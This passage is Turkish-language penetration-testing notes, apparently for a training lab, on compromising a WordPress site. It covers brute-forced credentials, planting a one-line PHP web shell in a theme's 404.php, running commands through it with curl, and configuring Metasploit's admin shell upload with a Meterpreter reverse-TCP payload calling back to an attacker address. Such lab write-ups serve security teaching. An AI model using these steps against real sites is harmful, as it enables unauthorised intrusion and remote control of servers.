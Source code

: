 Saldırı türünü belirtmek için --password-attack bayrağı kullanılır. -U bağımsız değişkeni bir kullanıcı listesi veya kullanıcı adlarını içeren bir dosya alır. Bu -P parolaları seçeneği için de geçerlidir. -t bayrağı, bağlı olarak yukarı veya aşağı ayarlayabileceğimiz thread sayısıdır. WPScan bir kullanıcı için geçerli kimlik bilgileri bulabildi, john:firebird1.


## Code Execution

WordPress'e yönetici erişimimiz olduğunda, PHP kaynak kodunu değiştirerek sistem komutları çalıştırabiliriz. **john** kullanıcısının kimlik bilgileriyle WordPress'e giriş yaparak yönetim paneline yönlendiriliriz. Yan panelde **Appearance** (Görünüm) seçeneğine tıklayın ve ardından **Theme Editor** (Tema Düzenleyici) seçeneğini seçin. Bu sayfa, PHP kaynak kodunu doğrudan düzenlememize olanak tanır. Ana temayı bozmayı önlemek için pasif bir tema seçilebilir. Aktif temanın **Transport Gravity** olduğunu zaten biliyoruz. Bunun yerine, **Twenty Nineteen** gibi alternatif bir tema seçilebilir.

Temayı seçtikten sonra **Select** (Seç) düğmesine tıklayın ve bir web shell eklemek için **404.php** gibi yaygın olmayan bir sayfayı düzenleyebiliriz.

```php
system($_GET[0]);
```

Yukarıdaki kod, GET parametresi 0 aracılığıyla komutları çalıştırmamıza izin vermelidir. İçeriğin çok fazla değiştirilmesini önlemek için bu tek satırı yorumların hemen altına dosyaya ekliyoruz.

![Pasted image 20241229175357.png](/img/user/resimler/Pasted%20image%2020241229175357.png)

Kaydetmek için alttaki Update File'a tıklayın. WordPress temalarının `/wp-content/themes/<theme name>` adresinde bulunduğunu biliyoruz. Web shell ile tarayıcı üzerinden ya da cURL kullanarak etkileşime geçebiliriz. Her zaman olduğu gibi, etkileşimli bir reverse shell elde etmek için bu erişimi kullanabilir ve hedefi keşfetmeye başlayabiliriz.

```shell-session
[!bash!]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Metasploit'in [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) modülü bir shell yüklemek ve otomatik olarak çalıştırmak için kullanılabilir.

Modül kötü amaçlı bir plugin yükler ve daha sonra bunu bir PHP Meterpreter shell'i çalıştırmak için kullanır. Öncelikle gerekli seçenekleri ayarlamamız gerekiyor.

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```
